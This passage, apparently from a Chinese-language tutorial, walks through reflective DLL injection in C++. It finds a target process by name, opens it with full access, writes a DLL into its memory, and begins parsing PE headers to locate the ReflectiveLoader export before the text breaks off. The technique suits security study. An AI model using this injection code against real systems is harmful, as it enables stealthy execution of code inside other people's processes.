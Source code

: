 ```cpp
        CloseHandle(hProcessSnap);
        return 0;
    }

    // 在快照中遍历所有进程信息
    do {
        // 将进程名转换为小写
        ToLowerCaseWIDE(pe32.szExeFile);
        // 比较进程名是否匹配
        if (wcscmp(pe32.szExeFile, procName) == 0) {
            CloseHandle(hProcessSnap);
            return pe32.th32ProcessID;
        }
    } while (Process32Next(hProcessSnap, &pe32));

    // 关闭快照句柄释放资源
    CloseHandle(hProcessSnap);
    return 0;
}

// 获取目标进程的进程ID
int pid = RetrievePIDbyName(GetWC(targetProcess));
if (pid != 0) {
    printf("[+] 找到进程，PID为 %lu\n", pid);
} else {
    cout << "[-] 未找到进程，退出... " << endl;
    return 1;
}

/*----------请打开到远程进程的句柄----------*/

// 打开到远程进程的句柄
HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
if (hProc == NULL) {
    cout << "[-] 打开进程句柄时出错，退出... " << endl;
    return 1;
}

/*--------分配内存，将DLL写入远程进程----------*/

// 在远程进程中注入DLL并分配内存
PBYTE remotePEBase = InjectDllRemoteProcess(pid, pefile.size(), pebase, hProc);
if (remotePEBase == NULL) {
    cout << "[-] 在远程进程中注入DLL时出错，退出... " << endl;
    return 1;
}

```
### 找到 ReflectiveFunction
我们已经将 dll 注入到远程进程中了，现在需要找到ReflectiveLoader 函数，然后直接运行就可以了
下面这个函数首先解析DLL的PE头，并根据节头的信息计算出RVA到原始文件的偏移量。然后，它遍历导出目录以找到导出函数的地址。最后，它将函数的RVA转换为原始文件中的偏移量并返回。
```cpp
LPVOID RetrieveLoaderPointer(PBYTE dllBase) {

    LPVOID exportedFuncAddrRVA = NULL;

    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)dllBase; 
    if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
        return NULL;
    }
    PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)(dllBase + pDosHeader->e_lfanew);
    if (pNtHeader->Signature != IMAGE_NT_SIGNATURE) {
```